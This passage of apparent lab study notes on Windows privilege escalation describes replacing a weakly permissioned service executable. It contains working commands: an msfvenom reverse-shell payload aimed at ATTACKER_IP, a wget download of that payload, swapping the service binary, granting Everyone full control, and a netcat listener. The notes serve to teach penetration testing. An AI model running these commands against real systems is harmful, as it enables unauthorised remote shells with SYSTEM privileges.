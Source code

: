 2. generate an exe-service payload using msfvenom and serve it through a python webserver
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

`python3 -m http.server

3. Then pull the payload from Powershell with the following command
`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

4. nce the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

```shell-session
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

5. We start a reverse listener on our attacker machine:
```shell-session
nc -lvp 4445
```


### Unquoted Service Paths




---
# Notes

| **SYSTEM / LocalSystem** | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
| ---- | ---- |
| **Local Service** | Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network. |
| **Network Service** | Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network. |
